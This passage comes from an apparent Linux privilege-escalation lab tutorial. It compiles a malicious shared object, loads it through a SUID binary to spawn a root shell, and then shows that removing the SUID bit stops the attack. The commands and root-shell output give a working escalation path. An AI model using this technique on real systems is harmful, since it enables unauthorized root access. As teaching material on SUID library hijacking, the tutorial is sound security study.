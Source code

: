Create the shared object:

```bash
low@ubuntu:~/.config$ gcc -shared -o custom.so custom.o
```

Execute the program and since program has a SUID bit set, it executes as root, then it loads the evil library, and the evil library spawns a root shell:

```bash
/usr/bin/nosuchfile
```

As you can see we're able to escalate to the root user:

```bash
low@ubuntu:~/.config$ /usr/bin/nosuchfile
Hello
root@ubuntu:~/.config# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000(low)
```

Now remove the SUID bit and try to execute the binary again:

```bash
low@ubuntu:~/.config$ sudo chmod u-s /usr/bin/nosuchfile 
low@ubuntu:~/.config$ /usr/bin/nosuchfile
Hello
low@ubuntu:~/.config$ 
```

For this to work, the binary must have the SUID bit set.
